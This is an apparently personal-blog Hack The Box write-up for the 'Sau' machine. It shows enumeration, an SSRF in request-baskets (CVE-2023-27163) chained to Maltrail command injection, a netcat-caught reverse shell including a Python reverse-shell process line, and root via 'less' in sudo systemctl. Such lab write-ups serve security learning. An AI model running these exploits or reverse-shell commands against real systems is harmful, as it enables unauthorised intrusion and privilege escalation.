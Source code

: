 ```yaml
---
layout: post
title: "HTB: Sau"
author: Andrew Cherney
date: 2024-01-06 14:01:27
tags: htb easy-box linux ssrf webapp cve
icon: "assets/icons/sau.png"
post_description: "The challenge of this box comes from searching of esoteric service versions and a small understanding of some Linux commands. There is a cool use of SSRF which uses a previous exploit to exploit a locally hosted service."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

<h2>nmap</h2>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Sau]
└──╼ $nmap -sC 10.10.11.224
Starting Nmap 7.92 ( https://nmap.org ) at 2023-08-27 21:03 CDT
Nmap scan report for 10.10.11.224
Host is up (0.049s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
```

Normally when I use common scripts with the **-sC** option it will return results from port 80 and 443 about the webpage. Here there is evidently no information being retrieved from whatever is hosted on port 80.

That port 55555 is peculiar however, so I'll try to enumerate its version and go from there.


```bash
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 28 Aug 2023 02:11:02 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 28 Aug 2023 02:10:35 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 28 Aug 2023 02:10:36 GMT
|_    Content-Length: 0
```

The page **/web** returns a 200 response which means there is a webserver being hosted on this port. 

![Port 55555 Webpage](/img/sau/sau_port_55555.png)

<h1>User as puma</h1>

<h2>request-baskets 1.2.1 SSRF</h2>

Looking around the webpage we can see the version of the service is **request-baskets version 1.2.1**, and in the cursory look for vulnerabilities I found [this SSRF exploit for version 1.2.1](https://github.com/entr0pie/CVE-2023-27163). This should allow me to interact with and enumerate the service on port 80.

That CVE works through an improperly secured **forwarded_url** and **proxy_response** parameter pair which allow server side redirection of traffic and functionally a proxy to relay it back.


```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Sau]
└──╼ $bash CVE-2023-27163.sh http://10.10.11.224:55555 http://localhost:80/
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "uibqua" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/uibqua now makes the server request to http://localhost:80/.
> Authorization: qfG-kBDhxT7X3j1NKwRqKLpSS2uj5K5_1S455l0TttzC
```

![SSRF to port 80 localhost](/img/sau/sau_ssrf_maltrail.png)

<h2>maltrail v0.53 RCE</h2>

Seems to have loaded a bit poorly but the substance is still visible. Namely there is a login button that does not properly work, though I can redirect to **http://localhost:80/login** and check for a response. 

Which we end up not seeing a login page but a response stating a bad request. [Here is an exploit-db post](https://www.exploit-db.com/exploits/51676) which outlines an RCE on this version of maltrails through command injection of the username parameter.


```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Sau]
└──╼ $python3 cve* 10.10.14.3 7777 http://10.10.11.224:55555/undrtk
Running exploit on http://10.10.11.224:55555/undrtk/login
Failed to forward request: Post http://localhost:80/login/login: EOF
```

Oh it looks like the maltrails exploit already appends **/login** to the url, guess I'll comment that out since I already have a basket with **/login**. 


The code I changed:
```
listening_IP = sys.argv[1]
listening_PORT = sys.argv[2]
target_URL = sys.argv[3] # + "/login"
print("Running exploit on " + str(target_URL))
curl_cmd(listening_IP, listening_PORT, target_URL)
```


```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Sau]
└──╼ $python3 cve* 10.10.14.3 7777 http://10.10.11.224:55555/undrtk
Running exploit on http://10.10.11.224:55555/undrtk/login

```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Sau]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.224] 51746
$ whoami
whoami
puma
$ cd ~
cd ~
$ cat user.txt
cat user.txt
3af9547e0181e-------------------
```

<h1>Root</h1>

<h2>GTFOBins Less</h2>

After placing an ssh key for a better shell I turned to **sudo -l** as my first check. And the user puma has the ability to run **systemctl status** as sudo. Now systemctl itself with these restrictions prohibits us from creating or running a custom service. 

There is a quirk here to abuse, and that is that systemctl status utilizes the command **less** to display the results. When **less** is run you can gain or change shells within by typing **!/bin/bash**, and while sudo that will give us a root shell.

```bash
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Sun 2023-08-27 16:39:15 UTC; 10h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 895 (python3)
      Tasks: 7 (limit: 4662)
     Memory: 21.3M
     CGroup: /system.slice/trail.service
             ├─ 895 /usr/bin/python3 server.py
             ├─1543 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed password for ;`echo "cHl0aG9uMyAtYy>
             ├─1544 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed password for ;`echo "cHl0aG9uMyAtYy>
             ├─1547 sh
             ├─1548 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(>
             └─1549 /bin/sh

Aug 27 16:39:15 sau systemd[1]: Started Maltrail. Server of malicious traffic detection system.
!/bin/bash
root@sau:/home/puma# cat ~/root.txt
8471e26dc2e185------------------
```
